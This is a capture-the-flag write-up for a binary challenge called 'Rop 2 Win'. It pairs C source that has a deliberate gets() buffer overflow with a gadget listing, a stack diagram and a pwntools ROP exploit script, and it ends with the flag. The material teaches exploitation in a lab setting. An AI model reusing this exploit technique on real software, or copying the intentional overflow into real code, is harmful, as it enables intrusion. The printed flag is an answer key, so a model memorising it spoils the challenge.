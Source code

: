 # Rop 2 Win

Difficulty Level: Hard
 
I have encrypted the flag and hid the decoder in 3 parts. Call the functions in sequence to win

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- You will need to know about gadgets which is essential for Return Oriented Programming ([ROP](https://ctf101.org/binary-exploitation/return-oriented-programming/))


## Deployment
#### Generate encrypted flag
```
cd generate
make encode
```
#### Generate challenge
```
cd generate
make vuln
```

## Solution
Looking at the source code, we see 3 functions of which require 2 arguments each

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include "base64.h"
#include "rc4.h"
#include "keys.h"

unsigned char ciphertext[64];
unsigned char rc4_out[64];
unsigned char flag[64];
int result;

int check1 = 0;
int check2 = 0;

void function_one(long arg1, long arg2) {
	if (arg1 == 0xdeadbeef && arg2 == 0xcafebabe){
		// Read file

		FILE *f = fopen("flag.enc", "rb");
		if (f == NULL) {
			printf("[-] Enc File is Missing.\n");
			exit(0);
		}

		fgets(ciphertext, sizeof(ciphertext), f);

		// Part 1: Xor
		printf("%s\n", "[+] Part 1: OK! Xor-ing encrypted flag...");
		for (size_t i = 0, len = strlen(ciphertext); i < len; i++)
			ciphertext[i] = ciphertext[i] ^ xor_key[i];

		check1 = 1;
	} else {
		printf("[-] Function 1 failed\n");
	}
}

void function_two(long arg1, long arg2) {
	if (arg1 == 0xdeadbeef && arg2 == 0xcafebabe && check1 == 1){
		// Part 2: RC4
		printf("%s\n", "[+] Part 2: OK! RC4-ciphering encrypted flag...");
		RC4(RC4_key, ciphertext, rc4_out);
		check2 = 1;
	} else {
		printf("[-] Function 2 failed\n");
	}
}

void function_three(long arg1, long arg2) {
	if (arg1 == 0xdeadbeef && arg2 == 0xcafebabe && check1 == 1 && check2 == 1){
		// Part 3: Base64 Decode

		printf("%s\n", "[+] Part 3: OK! Base64-decoding flag...");
		
		char *base64_in = (char*) rc4_out;
		size_t flag_len = sizeof(flag);

		result = base64decode(base64_in, strlen(base64_in), flag, &flag_len);

		printf("%s\n", flag);
	} else {
		printf("[-] Function 3 failed\n");
	}
}

void vuln(){
	char buffer[64] = {0x00};
	printf("%s\n", "Hey man how's it going! Wanna ROP?");

	gets(buffer);
}

int main(int argc, char** argv) {
	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
	setvbuf(stderr,NULL,2,0);

	vuln();
}
```

All we need to do is call function 1, 2, 3 with arguments 0xdeadbeef and 0xcafebabe.

This challenge introduces the need for gadgets. As we will be calling multiple functions, we need a way to remove the arguments for the previous function so that we can return to the next function. This can be done by finding a gadget such as ‘pop eax; ret;’ which will remove 1 line of the stack. Since we are dealing with 2 arguments we will need to find one with 2 pops in a row. 

You can find gadgets easily with 
- ropper -f ./rop2win or 
- ROPgadget --binary ./rop2win

```bash
$ ROPgadget --binary ./rop2win --only 'pop|ret'
Gadgets information
============================================================
0x08049757 : pop ebp ; ret
0x08049754 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804901e : pop ebx ; ret
0x08049756 : pop edi ; pop ebp ; ret
0x08049755 : pop esi ; pop edi ; pop ebp ; ret
0x0804900a : ret
0x08049766 : ret 0x289b
0x0804991b : ret 0x458b
0x080499bc : ret 0x4d8b
0x08049290 : ret 0x8b8d
0x0804959b : ret 0xc889
0x08049597 : ret 0xd201
0x0804915b : ret 0xe8c1

Unique gadgets found: 13
```

For this I will be using `pop edi; pop ebp; ret` as the gadget to remove the 2 arguments. It will look something like this

| Stack Value              |
| ------------------------ |
| Argument 2 (0xcafebabe)  |
| Argument 1 (0xdeadbeef)  |
| Fake return Address BBBB |
| Function 3               |
| Argument 2 (0xcafebabe)  |
| Argument 1 (0xdeadbeef)  |
| Gadget                   |
| Function 2               |
| Argument 2 (0xcafebabe)  |
| Argument 1 (0xdeadbeef)  |
| Gadget                   |
| Function 1               |
| AAAAAAAAAAAAAAAAAAAAAAAA |

```python
from pwn import *

def main():
	func_one = p32(0x080491c2)
	func_two = p32(0x080492cf)
	func_three = p32(0x08049355)

	#0x08049756: pop edi; pop ebp; ret;
	gadget = p32(0x08049756)

	padding = b'A' * 76

	arg1 = p32(0xdeadbeef)
	arg2 = p32(0xcafebabe)

	payload = padding
	payload += func_one
	payload += gadget
	payload += arg1
	payload += arg2
	payload += func_two
	payload += gadget
	payload += arg1
	payload += arg2
	payload += func_three
	payload += b'BBBB'
	payload += arg1
	payload += arg2

	io = process('./rop2win')
	io.sendline(payload)
	io.interactive()
	#print(payload)

if __name__ == '__main__':
	main()
```
### Flag
19C4{R0P_1s_Pr3tty_Fun!}
